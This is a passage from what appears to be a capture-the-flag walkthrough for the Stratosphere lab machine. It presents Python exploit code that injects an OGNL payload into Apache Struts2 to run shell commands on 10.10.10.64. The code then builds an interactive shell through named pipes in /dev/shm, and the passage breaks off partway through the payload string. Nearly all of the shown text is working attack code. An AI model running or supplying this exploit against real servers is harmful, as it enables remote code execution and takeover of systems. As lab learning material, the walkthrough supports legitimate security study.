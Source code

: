 Here’s the full code:

```

#!/usr/bin/python3
# -*- coding: utf-8 -*-

# source: https://github.com/rapid7/metasploit-framework/issues/8064

import base64
#import httplib
import random
import requests
import threading
import time
#import urllib2

class Stratosphere(object):

    def __init__(self, interval=1.3, proxies='http://127.0.0.1:8080'):
        self.url = r"http://10.10.10.64/Monitoring/example/Welcome.action"
        self.proxies = {'http' : proxies}
        session = random.randrange(10000,99999)
        print(f"[*] Session ID: {session}")
        self.stdin = f'/dev/shm/input.{session}'
        self.stdout = f'/dev/shm/output.{session}'
        self.interval = interval

        # set up shell
        print("[*] Setting up fifo shell on target")
        MakeNamedPipes = f"""mkfifo {self.stdin}; tail -f {self.stdin} | /bin/sh 2>&1 > {self.stdout}"""
        self.RunRawCmd(MakeNamedPipes, timeout=0.1)

        # set up read thread
        print("[*] Setting up read thread")
        self.interval = interval
        thread = threading.Thread(target=self.ReadThread, args=())
        thread.daemon = True
        thread.start()

    def ReadThread(self):
        GetOutput = f"""/bin/cat {self.stdout}"""
        while True:
            result = self.RunRawCmd(GetOutput) #, proxy=None)
            if result:
                print(result)
                ClearOutput = f"""echo -n "" > {self.stdout}"""
                self.RunRawCmd(ClearOutput)
            time.sleep(self.interval)

    def RunRawCmd(self, cmd, timeout=50, proxy="http://127.0.0.1:8080"):
        payload = "%{(#_='multipart/form-data')."
        payload += "(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
        payload += "(#_memberAccess?"
        payload += "(#_memberAccess=#dm):"
        payload += "((#container=#context['com.opensymphony.xwork2.ActionContext.container'])."
        payload += "(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))."
        payload += "(#ognlUtil.getExcludedPackageNames().clear())."
        payload += "(#ognlUtil.getExcludedClasses().clear())."
        payload += "(#context.setMemberAccess(#dm))))."
        payload += f"(#cmd='{cmd}')."
```